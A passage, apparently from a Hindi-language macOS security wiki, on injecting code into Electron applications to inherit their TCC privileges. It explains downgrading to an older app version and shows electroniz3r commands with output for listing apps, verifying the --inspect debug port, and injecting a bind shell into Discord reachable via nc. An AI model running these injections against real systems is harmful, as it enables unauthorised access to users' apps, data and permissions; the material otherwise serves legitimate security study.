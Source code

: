 {% hint style="success" %}
macOS का TCC डेमन एप्लिकेशन के निष्पादित संस्करण की जांच नहीं करता है। इसलिए, यदि आप किसी भी पिछले तकनीक के साथ किसी इलेक्ट्रॉन एप्लिकेशन में कोड संयोजित नहीं कर सकते हैं, तो आप पिछले संस्करण के एप्लिकेशन को डाउनलोड करके उसमें कोड संयोजित कर सकते हैं क्योंकि यह अभी भी TCC विशेषाधिकार प्राप्त करेगा (यदि ट्रस्ट कैश इसे रोकता नहीं है)।
{% endhint %}

## स्वचालित संयोजन

टूल [**electroniz3r**](https://github.com/r3ggi/electroniz3r) का उपयोग करके आसानी से **इंजेक्ट करने योग्य इलेक्ट्रॉन एप्लिकेशन** का पता लगाया जा सकता है और उन पर कोड संयोजित किया जा सकता है। यह टूल **`--inspect`** तकनीक का उपयोग करने की कोशिश करेगा:

आपको इसे खुद कंपाइल करना होगा और इसे इस तरह से उपयोग कर सकते हैं:
```bash
# Find electron apps
./electroniz3r list-apps

╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
org.whispersystems.signal-desktop            /Applications/Signal.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.neo4j.neo4j-desktop                      /Applications/Neo4j Desktop.app
com.electron.dockerdesktop                   /Applications/Docker.app/Contents/MacOS/Docker Desktop.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.ledger.live                              /Applications/Ledger Live.app
com.postmanlabs.mac                          /Applications/Postman.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
com.hnc.Discord                              /Applications/Discord.app

# Check if an app has vulenrable fuses vulenrable
## It will check it by launching the app with the param "--inspect" and checking if the port opens
/electroniz3r verify "/Applications/Discord.app"

/Applications/Discord.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 57739`

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345`
```
## संदर्भ

